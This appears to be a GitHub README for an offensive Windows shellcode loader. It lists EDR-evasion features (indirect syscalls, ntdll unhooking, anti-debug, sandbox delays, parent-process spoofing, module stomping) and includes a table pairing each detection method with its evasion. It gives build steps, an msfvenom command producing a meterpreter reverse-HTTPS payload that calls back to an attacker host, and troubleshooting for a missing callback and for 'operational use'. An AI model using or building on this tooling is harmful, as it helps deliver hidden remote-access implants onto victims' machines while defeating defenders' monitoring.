

# Shellcode Loader

Position-independent shellcode loader for Windows x64 using indirect syscalls.

## Features

| Feature | Default | Description |
|---------|---------|-------------|
| **Indirect Syscalls** | ON | Jumps to `syscall;ret` gadgets in ntdll.dll |
| **Halo's Gate** | ON | Dynamic SSN resolution with neighbor scanning |
| **XOR Encryption** | ON | Rolling XOR with 32-bit key |
| **UNHOOK** | ON | Fresh ntdll copy from disk bypasses EDR hooks |
| **ANTIDEBUG** | ON | Timing checks, PEB flags, heap flags |
| **DELAY** | ON | Random sleeps to evade sandbox acceleration |
| **PPID SPOOF** | ON | Parent process spoofing |
| **MODULE STOMP** | ON | Hollows legitimate DLL for shellcode |
| **CRT Independent** | ON | No msvcrt.dll dependency |

## Architecture



## Syscalls (17 Total)

| Syscall | Args | Purpose |
|---------|------|---------|
| NtAllocateVirtualMemory | 6 | Memory allocation |
| NtProtectVirtualMemory | 5 | Memory protection |
| NtFreeVirtualMemory | 4 | Memory cleanup |
| NtCreateThreadEx | 11 | Thread creation |
| NtWaitForSingleObject | 3 | Synchronization |
| NtDelayExecution | 2 | Sleep/delays |
| NtClose | 1 | Handle cleanup |
| NtQueryInformationProcess | 5 | Process info |
| NtReadVirtualMemory | 5 | Memory read |
| NtWriteVirtualMemory | 5 | Memory write |
| NtQueryVirtualMemory | 6 | Memory query |
| NtOpenProcessToken | 3 | Token access |
| NtTerminateProcess | 2 | Process termination |
| NtOpenProcess | 4 | Process access |
| NtOpenSection | 3 | Section access (UNHOOK) |
| NtMapViewOfSection | 10 | Map section (UNHOOK) |
| NtUnmapViewOfSection | 2 | Unmap section (UNHOOK) |

## Build

**Requirements:**
- Visual Studio 2019/2022 (C++ workload)
- Windows SDK
- Python 3.x

**Steps:**
```batch
# 1. Generate encrypted shellcode header
python embed.py -i payload.bin -o shellcode.h

# 2. Build (from VS x64 Native Tools Command Prompt)
build.bat
```

## Configuration

Edit `loader.cpp` to toggle features:

```c
#define CFG_UNHOOK      1   // Fresh ntdll from disk
#define CFG_ANTIDEBUG   1   // Debugger detection
#define CFG_DELAY       1   // Sandbox evasion delays
#define CFG_SPOOF       1   // PPID spoofing
#define CFG_STOMP       1   // Module stomping
#define CFG_DEBUG       0   // Debug logging (enable for troubleshooting)
```

## Files

```
loader.cpp      Main loader (~29KB)
syscalls.asm    17 indirect syscall stubs
syscalls.h      Syscall declarations
ntstructs.h     NT structure definitions
obfuscation.h   Compile-time string encryption + hashing
embed.py        Shellcode XOR encryptor
build.bat       Build script
```

## OPSEC Notes

- **No CRT dependency** - Custom memset/wcslen implementations
- **Minimal imports** - Only ntdll.dll used
- **Indirect syscalls** - Call stack shows ntdll, not loader
- **Encrypted strings** - Compile-time XOR obfuscation
- **No static signatures** - Fresh compile recommended

## Detection Considerations

| Technique | Mitigation |
|-----------|------------|
| Userland hooks | UNHOOK feature |
| Sandbox | DELAY + ANTIDEBUG |
| Process lineage | PPID SPOOF |
| Memory scanning | MODULE STOMP |
| Static analysis | String encryption |
| Import analysis | Syscalls only |

## Usage

```batch
# Generate payload (example with msfvenom)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o payload.bin

# Or use Donut for .NET/PE
donut.exe -i implant.exe -o payload.bin

# Embed and build
python embed.py -i payload.bin -o shellcode.h
build.bat

# Execute
loader.exe
```

## Troubleshooting

### No Callback Received

1. **Enable debug logging:**
   - Set `CFG_DEBUG 1` in `loader.cpp`

2. **Rebuild with CRT support:**
```batch
   ml64 /c /Fo syscalls.obj syscalls.asm
   cl /c /O2 /MT /GS- loader.cpp
   link /OUT:loader.exe /SUBSYSTEM:CONSOLE loader.obj syscalls.obj ntdll.lib
```
   
   > **Note:** The `/MT` flag statically links the C Runtime Library (CRT), which is required for debug logging functions like `fopen_s` and `fclose`.

3. **If you encounter linker errors (LNK2019)**, add additional libraries:
```batch
   link /OUT:loader.exe /SUBSYSTEM:CONSOLE loader.obj syscalls.obj ntdll.lib kernel32.lib ucrt.lib libcmt.lib
```

4. **Run the loader and check logs:**
```batch
   loader.exe
```
   Check `debug.log` for detailed error messages.

5. **Before production use:**
   - Set `CFG_DEBUG 0` in `loader.cpp`
   - Rebuild without `/MT` flag for minimal footprint
   - Debug builds are larger and more detectable

### Common Issues

- **CRT linking errors:** Enable debug mode requires CRT support via `/MT` flag
- **Missing libraries:** Add `kernel32.lib ucrt.lib libcmt.lib` if basic linking fails
- **Large binary size:** Debug builds include CRT; disable for operational use

## License

For authorized security testing only.
